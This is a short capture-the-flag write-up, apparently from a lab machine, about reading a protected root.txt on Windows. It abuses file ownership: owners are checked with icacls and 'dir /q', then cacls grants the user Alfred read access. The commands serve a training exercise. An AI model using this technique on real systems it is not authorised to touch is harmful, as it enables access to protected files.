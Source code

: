 ### Abusing Permission Issue

#### icals

You can try calcs command to see if you are able to grant root permission to the current/specific user.

To check the permission of the root.txt, use _icals_

```
icalcs root.txt
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Only Administrator can access root.txt

However, Alfred owns the root.txt. The ownership of each file in a directory can be checked by&#x20;

```
dir /q /a:
```

/q - to show ownership.

/a: to all in the directory.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Since the user Alfred owns the root.txt, Alfred has the ability to grant users access to it regardless of anything else.

You can grant alfred read permssion to read the root.txt

```
C:\Users\Administrator\Desktop>cacls root.txt /g alfred:r
C:\Users\Administrator\Desktop>type root.txt

```

